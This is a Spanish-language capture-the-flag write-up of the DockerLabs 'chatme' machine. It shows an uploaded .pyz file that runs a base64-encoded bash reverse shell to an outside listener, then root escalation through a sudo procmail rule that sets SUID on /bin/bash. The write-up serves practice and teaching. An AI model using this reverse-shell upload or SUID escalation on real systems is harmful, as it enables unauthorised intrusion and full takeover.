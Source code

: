 nmap:80

![image](https://github.com/user-attachments/assets/6da55b66-44e5-45aa-b6bd-204f3656c0a3)


---
al ingresar a la pagina principal vemos esto

![image](https://github.com/user-attachments/assets/3924a298-cd07-4d62-a48b-c0491a3129b3)

entramos a "chat Right now" y es un .dl así que lo añadimos a "/etc/host" 

al entrar nos mandara a un tipo chat que hay

![image](https://github.com/user-attachments/assets/fa5ddaa2-dc0d-4b43-a35e-4a977eb12627)


con burpsuite capturamos y vemos que los archivos se suben en formato "PYZ"
en el terminal creo un virus.pyz:

    import os
    os.system("echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYx' | base64 -d | bash")

en la pagina https://www.revshells.com/ creamos una reverse en base64 y nos dara algo así: YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYx que será lo que colocaremos en el código 

lo guardamos, colocamos el terminal en escucha y subimos el archivo
esperamos un rato y estamos dentro ahora escalamos
después de esperar un rato tenemos al conexión
![[dockerlabs/medio/chatme/conexion1.png]]
al hacer un sudo -l aparece: /usr/bin/procmail
![[sudo-l.png]]

en la carpeta /tmp hay un archivo llamado "crontab.z4q2tt" que podemos modificar 
como no hay una carpeta de procmail creamos una llamada "procmailrc",  dentro colocamos el código: 

     TMPFILE="/tmp/pwned"
     :0
	 | touch $TMPFILE

![[dockerlabs/medio/chatme/codigo1.png]]

ahora probamos que el código funciona utilizando este comando

	 echo "test" | sudo /usr/bin/procmail -m .procmailrc

![[dockerlabs/medio/chatme/codigo2.png]]

ahora colocamos el mismo comando pero lo modificamos 

     TMPFILE="/tmp/pwned"
     :0
	 | touch $TMPFILE; chmod u+s /bin/bash

![[bash.png]]

volvemos a lanzar el comando:

     echo "test" | sudo /usr/bin/procmail -m .procmailrc

revisamos con "ls -la" el archivo en especifico de /bin/bash  y vemos que esta en rojo como queríamos con los permisos, ahora lanzamos un "bash -p"
![[dockerlabs/medio/chatme/root.png]]
y somos root!
